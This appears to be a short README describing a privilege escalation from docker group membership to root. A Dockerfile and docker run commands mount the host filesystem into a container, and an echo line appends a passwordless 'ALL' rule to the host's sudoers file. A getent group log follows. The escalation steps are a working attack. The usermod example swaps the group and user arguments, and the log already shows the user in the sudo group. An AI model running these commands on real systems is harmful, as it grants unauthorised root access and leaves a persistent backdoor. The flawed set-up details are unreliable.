 assume that we have user that has not any permissions in "etc/sudoers" file,
but suddenly have access for docker group (set-up: sudo usermod -aG <user> <group> ex. sudo suermod -aG BillyGLW docker).

# escalation

mkdir pesc
cd pesc
nano Dockerfile
```
FROM debian:wheezy

ENV WORKDIR /pesc

RUN mkdir -p $WORKDIR

VOLUME [ $WORKDIR ]

WORKDIR $WORKDIR
```
docker build -t pesc . 
docker run -v /:/pesc pesc  # put root a file system into workdir, env variable of image with the same name
docker run -v /:/pesc -it pesc /bin/bash

since docker is running with root privilege inside entire file system, originally
hold by my machine, so we can go ahead and work with (etc/sudoers) on original rarget.
because we can edit this, sadly we dont have vim or any editor on docker container, we can actually echo into it
```
echo "<user> ALL=(ALL) NOPASSWD: ALL" >> /pesc/etc/sudoers
```

now in fact we are treated as a root.

# set-up enviroment

### sudo usermod -aG <user> <group> ex. sudo suermod -aG BillyGLW docker)

### getent group log:

```
$ getent group
root:x:0:
daemon:x:1:
bin:x:2:
sys:x:3:
adm:x:4:syslog,BillyGLW
tty:x:5:
disk:x:6:
lp:x:7:
mail:x:8:
news:x:9:
uucp:x:10:
man:x:12:
proxy:x:13:
kmem:x:15:
dialout:x:20:
fax:x:21:
voice:x:22:
cdrom:x:24:BillyGLW
floppy:x:25:
tape:x:26:
sudo:x:27:BillyGLW
audio:x:29:
dip:x:30:BillyGLW
www-data:x:33:
backup:x:34:
operator:x:37:
list:x:38:
irc:x:39:
src:x:40:
gnats:x:41:
shadow:x:42:
utmp:x:43:
video:x:44:
sasl:x:45:
plugdev:x:46:BillyGLW
staff:x:50:
games:x:60:
users:x:100:
nogroup:x:65534:
systemd-journal:x:101:
systemd-network:x:102:
systemd-resolve:x:103:
input:x:104:
crontab:x:105:
syslog:x:106:
messagebus:x:107:
lxd:x:108:BillyGLW
mlocate:x:109:
uuidd:x:110:
ssh:x:111:
landscape:x:112:
BillyGLW:x:1000:
netdev:x:113:
rdma:x:114:
sambashare:x:115:BillyGLW
BillyGLW:x:1001:
docker:x:116:BillyGLW
```
